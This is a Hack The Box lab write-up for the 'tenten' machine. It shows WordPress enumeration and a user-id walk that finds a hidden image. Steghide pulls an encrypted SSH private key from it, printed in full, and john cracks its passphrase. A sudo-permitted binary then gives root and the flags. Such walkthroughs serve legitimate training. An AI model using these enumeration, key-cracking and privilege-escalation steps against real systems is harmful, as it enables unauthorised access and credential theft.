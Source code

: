 ```yaml
---
title: tenten
author: fieldraccoon
date: 2020-06-22 
categories: [hack-the-box, linux]
tags: [hack-the-box, crypto, medium]
math: true
---
```

# tenten

tenten was a relatively easy medium linux box that involved recon of the wordpress site to find a jpg file. We then run steghide on the file to get an rsa key which we extract the password from using ssh2john. We then ssh into the box as user, for root we find an intersesting file called `fuckin` which we can abuse to get comand execution and read the root flag.

> Skills involved in this box:
- enumeration
- privelage escalation
- hash cracking
- steghide

# USER

> Nmap

```shell
nmap -sC -sV -o nmap 10.10.10.10

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-22 09:24 EDT                                                    
Nmap scan report for 10.10.10.10                                                                                   
Host is up (0.031s latency).                                                                                       
Not shown: 998 filtered ports                                                                                      
PORT   STATE SERVICE VERSION                                                                                       
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)                                  
| ssh-hostkey:                                                                                                     
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)                                                     
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Our nmap scan reveals just 2 ports open, 22 on ssh and port 80 on http.

We head over to the website and se imeediately that it is wordpress, instead of using dirbuster or any oter reconnaisance tools we use wpscan which is made specifically for wordpress.

```shell
$ sudo wpscan -u http://10.10.10.10 
[+] We found 1 plugins:

[+] Name: job-manager - v7.2.5
 |  Latest version: 0.7.25 (up to date)
 |  Last updated: 2015-08-25T22:44:00.000Z
 |  Location: http://10.10.10.10/wp-content/plugins/job-manager/
 |  Readme: http://10.10.10.10/wp-content/plugins/job-manager/readme.txt
[+] Enumerating usernames ...
[+] Identified the following 2 user/s:
    +----+-------+-------+
    | Id | Login | Name  |
    +----+-------+-------+
    | 1  | takis | takis |
    | 2  | user1 | user1 |
    +----+-------+-------+
```

We can see that there is a user called takis on the site, we assume that this is going to be the user for this box.

Afer navigating to the http page and enumerating the website we come accross the job listings page where we click `apply` and we get an interesting url.

`http://10.10.10.10/index.php/jobs/apply/8/`


 We can see that there is the number `8` which we assume is the id of the person logged on, we test a few more numbers and we get a unique user called `HackerAccessGranted` we assume that this has to be the right thing.

 We could also get this by intercepting the request with burpsuite and sending it to intruder, we then generate a custom payload with numbers(e.g like 1-20), then take a look at the output and get the same response for number 13.

 >Exploit

 he wordpress directory structure for the uploaded files is known as /wp-content/uploads/%year%/%month%/%filename% - file structure for wordpress

We test file extensions for our wanted file and it finally  works with a `jpg` file.
```shell
wget http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```
This can also be find by fuzzing further for files or by using an exploit `CVE-2015-6668` which is a python script that bruteforces files and shows us the image file.

We then run steghide on this image to see if we can exfiltrate any hidden data inside it.

```shell
kali@kali:~/boxes/tenten$ steghide extract -sf HackerAccessGranted.jpg
Enter passphrase: 
wrote extracted data to "id_rsa".

cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,7265FC656C429769E4C1EEFC618E660C

/HXcUBOT3JhzblH7uF9Vh7faa76XHIdr/Ch0pDnJunjdmLS/laq1kulQ3/RF/Vax
tjTzj/V5hBEcL5GcHv3esrODlS0jhML53lAprkpawfbvwbR+XxFIJuz7zLfd/vDo
1KuGrCrRRsipkyae5KiqlC137bmWK9aE/4c5X2yfVTOEeODdW0rAoTzGufWtThZf
K2ny0iTGPndD7LMdm/o5O5As+ChDYFNphV1XDgfDzHgonKMC4iES7Jk8Gz20PJsm
SdWCazF6pIEqhI4NQrnkd8kmKqzkpfWqZDz3+g6f49GYf97aM5TQgTday2oFqoXH
WPhK3Cm0tMGqLZA01+oNuwXS0H53t9FG7GqU31wj7nAGWBpfGodGwedYde4zlOBP
VbNulRMKOkErv/NCiGVRcK6k5Qtdbwforh+6bMjmKE6QvMXbesZtQ0gC9SJZ3lMT
J0IY838HQZgOsSw1jDrxuPV2DUIYFR0W3kQrDVUym0BoxOwOf/MlTxvrC2wvbHqw
AAniuEotb9oaz/Pfau3OO/DVzYkqI99VDX/YBIxd168qqZbXsM9s/aMCdVg7TJ1g
2gxElpV7U9kxil/RNdx5UASFpvFslmOn7CTZ6N44xiatQUHyV1NgpNCyjfEMzXMo
6FtWaVqbGStax1iMRC198Z0cRkX2VoTvTlhQw74rSPGPMEH+OSFksXp7Se/wCDMA
pYZASVxl6oNWQK+pAj5z4WhaBSBEr8ZVmFfykuh4lo7Tsnxa9WNoWXo6X0FSOPMk
tNpBbPPq15+M+dSZaObad9E/MnvBfaSKlvkn4epkB7n0VkO1ssLcecfxi+bWnGPm
KowyqU6iuF28w1J9BtowgnWrUgtlqubmk0wkf+l08ig7koMyT9KfZegR7oF92xE9
4IWDTxfLy75o1DH0Rrm0f77D4HvNC2qQ0dYHkApd1dk4blcb71Fi5WF1B3RruygF
2GSreByXn5g915Ya82uC3O+ST5QBeY2pT8Bk2D6Ikmt6uIlLno0Skr3v9r6JT5J7
L0UtMgdUqf+35+cA70L/wIlP0E04U0aaGpscDg059DL88dzvIhyHg4Tlfd9xWtQS
VxMzURTwEZ43jSxX94PLlwcxzLV6FfRVAKdbi6kACsgVeULiI+yAfPjIIyV0m1kv
5HV/bYJvVatGtmkNuMtuK7NOH8iE7kCDxCnPnPZa0nWoHDk4yd50RlzznkPna74r
Xbo9FdNeLNmER/7GGdQARkpd52Uur08fIJW2wyS1bdgbBgw/G+puFAR8z7ipgj4W
p9LoYqiuxaEbiD5zUzeOtKAKL/nfmzK82zbdPxMrv7TvHUSSWEUC4O9QKiB3amgf
yWMjw3otH+ZLnBmy/fS6IVQ5OnV6rVhQ7+LRKe+qlYidzfp19lIL8UidbsBfWAzB
9Xk0sH5c1NQT6spo/nQM3UNIkkn+a7zKPJmetHsO4Ob3xKLiSpw5f35SRV+rF+mO
vIUE1/YssXMO7TK6iBIXCuuOUtOpGiLxNVRIaJvbGmazLWCSyptk5fJhPLkhuK+J
YoZn9FNAuRiYFL3rw+6qol+KoqzoPJJek6WHRy8OSE+8Dz1ysTLIPB6tGKn7EWnP
-----END RSA PRIVATE KEY-----
```
It works and it outputs to a file called id_rsa which is the ssh key for the user takis.

We try ssh into the box but the key is password protected.

```shell
kali@kali:~/boxes/tenten$ chmod 600 id_rsa
kali@kali:~/boxes/tenten$ ssh -i id_rsa takis@10.10.10.10
load pubkey "id_rsa": invalid format
Enter passphrase for key 'id_rsa': 
takis@10.10.10.10's password:
```
From here we tried `ssh2john.py` with `john` which worked great!

```shell
sudo /usr/share/john/ssh2john.py  id_rsa > hash

kali@kali:~/boxes/tenten$ sudo john -w=/home/kali/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
superpassword    (id_rsa)
1g 0:00:00:07 DONE (2020-06-22 09:41) 0.1416g/s 2031Kp/s 2031Kc/s 2031KC/sa6_123..*7¡Vamos!
Session completed
```
So now we got our password `superpassword`.

We ssh into the box and read our user flag.

```shell

kali@kali:~/boxes/tenten$ ssh -i id_rsa takis@10.10.10.10
load pubkey "id_rsa": invalid format
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
39 updates are security updates.


Last login: Fri May  5 23:05:36 2017
takis@tenten:~$ ls
user.txt
takis@tenten:~$ cat user.txt
e5c7ed3b89e73049c04c432fc8686f31
```
# ROOT

We run `sudo -l` to check if we have any privs for running things as sudo and it turns out that we do.
```shell
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```
we can see here that the user can run the file `fuckin` as root.

We experiment with what the file can do and we realise that we can simply specify the command after the file, we willl use this to read the root flag.
```shell
takis@tenten:~$ fuckin cat /root/root.txt
cat: /root/root.txt: Permission denied
takis@tenten:~$ fuckin id
uid=1000(takis) gid=1000(takis) groups=1000(takis),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare)
takis@tenten:~$ sudo fuckin id
uid=0(root) gid=0(root) groups=0(root)
takis@tenten:~$ sudo fuckin cat /root/root.txt
f9f7291e39a9a2a011b1425c3e08f603
takis@tenten:~$ 
```
Thanks for reading hope you enjoyed!
